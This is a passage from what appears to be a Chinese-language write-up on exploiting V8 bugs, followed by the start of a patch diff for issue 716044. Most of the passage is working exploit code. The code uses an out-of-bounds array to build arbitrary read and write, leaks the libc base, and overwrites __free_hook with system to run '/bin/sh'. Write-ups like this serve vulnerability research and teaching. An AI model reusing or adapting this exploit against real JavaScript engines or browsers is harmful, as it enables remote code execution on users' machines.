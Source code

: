 ```
function write64(addr_h,addr_l,value) `{`
   oobArray[5] = p64f(addr_l,addr_h);
   oob_dv.setFloat64(0,value,true);
`}`


var d = read64(backing_store_h,backing_stroe_l + 0x1820);
var elf_base_h = u64_h(d);
var elf_base_l = u64_l(d) - 0xb83338;

d = read64(elf_base_h,elf_base_l + 0xB9A118);
var libc_base_h = u64_h(d);
var libc_base_l = u64_l(d) - 0x21ab0;
var system_l = libc_base_l + 0x4f4e0;
var free_hook_l = libc_base_l + 0x3ed8e8;
console.log("[+]libc_base=" + libc_base_h.toString(16) + libc_base_l.toString(16));
console.log("[+]system=" + libc_base_h.toString(16) + system_l.toString(16));
console.log("[+]free_hook=" + libc_base_h.toString(16) + free_hook_l.toString(16));
//需要执行的命令
var shell_buf = new ArrayBuffer(0x30);
var str = "/bin/sh\x00";
var bufView = new Uint8Array(shell_buf);
for (var i=0, strLen=str.length; i&lt;strLen; i++) `{`
   bufView[i] = str.charCodeAt(i);
`}`
//写free_hook
write64(libc_base_h,free_hook_l,p64f(system_l,libc_base_h));
```

### <a class="reference-link" name="0x03.02%20issue%20716044"></a>0x03.02 issue 716044

#### <a class="reference-link" name="patch%E5%88%86%E6%9E%90"></a>patch分析

```
diff --git a/src/builtins/builtins-array-gen.cc b/src/builtins/builtins-array-gen.cc
index 32dd9b5..316c0b7 100644
--- a/src/builtins/builtins-array-gen.cc
+++ b/src/builtins/builtins-array-gen.cc
@@ -15,13 +15,11 @@
       : CodeStubAssembler(state),
         k_(this, MachineRepresentation::kTagged),
         a_(this, MachineRepresentation::kTagged),
-        to_(this, MachineRepresentation::kTagged, SmiConstant(0)) `{``}`
-
-  typedef std::function&lt;Node*(ArrayBuiltinCodeStubAssembler* masm)&gt;
-      BuiltinResultGenerator;
+        to_(this, MachineRepresentation::kTagged, SmiConstant(0)),
+        fully_spec_compliant_(this, `{`&amp;k_, &amp;a_, &amp;to_`}`) `{``}`

   typedef std::function&lt;void(ArrayBuiltinCodeStubAssembler* masm)&gt;
-      BuiltinResultIndexInitializer;
+      BuiltinResultGenerator;

   typedef std::function&lt;Node*(ArrayBuiltinCodeStubAssembler* masm,
                               Node* k_value, Node* k)&gt;
@@ -30,7 +28,7 @@
   typedef std::function&lt;void(ArrayBuiltinCodeStubAssembler* masm)&gt;
       PostLoopAction;

-  Node* ForEachResultGenerator() `{` return UndefinedConstant(); `}`
+  void ForEachResultGenerator() `{` a_.Bind(UndefinedConstant()); `}`
```